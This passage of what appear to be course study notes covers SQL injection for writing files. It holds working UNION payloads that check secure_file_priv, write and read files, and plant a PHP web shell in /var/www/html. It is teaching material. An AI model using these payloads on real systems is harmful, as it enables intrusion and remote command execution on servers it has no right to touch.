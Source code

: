 <figure><img src="../../../../.gitbook/assets/load_file.png" alt=""><figcaption></figcaption></figure>

### Write file

```sql
cn' union select 1,variable_name,variable_value,4 from information_schema.global_variables where variable_name="secure_file_priv"-- -
```

If `secure_file_priv` is :

* `NULL`, you cannot read/write from any directory.
* `EMPTY`, you can read/write in any location.

If the `secure_file_priv` is `EMPTY`, I can run the next instructions.

```sql
cn' union select 'test1','test2','test3','test4' into outfile '/tmp/test.txt'-- -
cn' union select 1,load_file("/tmp/test.txt"),3,4-- -
```

You have a have acces to your file, and inject shell

```sql
cn' union select 1,"file written successfully!",2,3 into outfile "/var/www/html/proof.txt"-- -
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

## Questions
